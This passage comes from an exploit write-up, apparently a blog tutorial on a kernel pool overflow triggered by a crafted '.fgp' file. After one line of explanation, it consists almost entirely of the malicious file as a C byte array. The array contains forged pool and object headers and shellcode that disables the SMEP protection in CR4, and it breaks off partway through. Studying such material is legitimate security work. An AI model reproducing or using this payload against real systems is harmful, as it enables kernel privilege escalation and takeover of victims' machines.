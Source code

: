 We need to preserve the structre and some values of the pool header and the object header of the file object at 0x864e9dd8. Also, as it was said before, we need to mark the object with special values in the object header. The following fgp file does the job:
{% highlight C %}
unsigned char Payload[1276] = {
    0x46, 0x47, 0x50, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x02, 0x00, 0x00, 0x00, 0x07, 0x00, 0x00, 0x00, 0x42, 0xC0, 0x27, 0x00, 0x43, 0x00, 0x3A, 0x00,
    0x7C, 0x00, 0x4C, 0x00, 0x50, 0x00, 0x50, 0x00, 0x31, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0x00, 0x00, 0x00, 0x00,
    //POOL_HEADER
    0x56, 0x00, 0x17, 0x04, 0x46, 0x69, 0x6C, 0xE5,
    //OBJECT OPTIONAL HEADERS
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    //OBJECT_HEADER
    0x22, 0x22, 0x00, 0x00, 0x22, 0x22, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x1C, 0x00, 0x04, 0x40,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    //BODY, +0x2F0

    0xCC, 0xE8, 0x00, 0x00, 0x00, 0x00, 0x59, 0x83, 0xE9, 0x06, 0x0F, 0x20, 0xE0, 0x0F, 0xBA, 0xF0,
    0x14, 0x0F, 0x22, 0xE0, 0xFF, 0x51, 0x27, 0x8B, 0x44, 0x24, 0x1C, 0x31, 0xD2, 0x89, 0x10, 0x89,
    0x50, 0x04, 0xB0, 0x01, 0xC2, 0x20, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,